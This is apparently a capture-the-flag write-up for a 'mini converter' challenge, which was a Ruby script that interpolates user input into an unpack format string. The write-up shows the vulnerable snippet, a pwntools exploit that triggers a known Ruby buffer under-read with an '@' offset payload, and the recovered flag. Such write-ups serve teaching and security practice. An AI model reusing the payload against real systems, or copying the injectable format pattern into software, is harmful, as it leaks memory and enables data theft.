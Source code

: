 ## mini converter

We are given a simple ruby script that converts between types -- hex to string, hex to integer, integer to string, etc.

We quickly noticed that our input is used as part of format specifier in the argument for `unpack`, and found that there was a buffer under-read vulnerability in `pack_unpack_internal()` function in Ruby reported on Hackerone (https://hackerone.com/reports/298246). 



```ruby
   elsif flag == 2
	    if num == 1
		    puts "string to integer"
            STDOUT.flush
            puts input.unpack("C*#{input}.length")
            STDOUT.flush
```

From the "string to integer" case, we could easily trigger the bug by providing a large, thus becoming negative in signed length, `len` value with '@' type to read memory before our buffer.

Since we didn't know exactly where the flag content would appear in memory, we just looped through and see if we get anything that has "FLAG" string in it.

```python
#!/usr/bin/env python
from pwn import *

N = 0x100000

r = remote('110.10.147.105', 12137)

r.readuntil('type exit if you want to exit')
r.sendline('@%dC%d' % ((1 << 64) - N, N))
r.readuntil('2. hex')
r.sendline('1')
r.readuntil('string to integer\n')

import sys
for _ in xrange(N / 1024):
    s = ''
    for _ in xrange(1024):
        s += chr(int(r.readuntil('\n')))
    sys.stdout.write(s)
```

```bash
python solve.py | strings | grep FLAG
```

Flag was `FLAG{Run away with me.It'll be the way you want it}`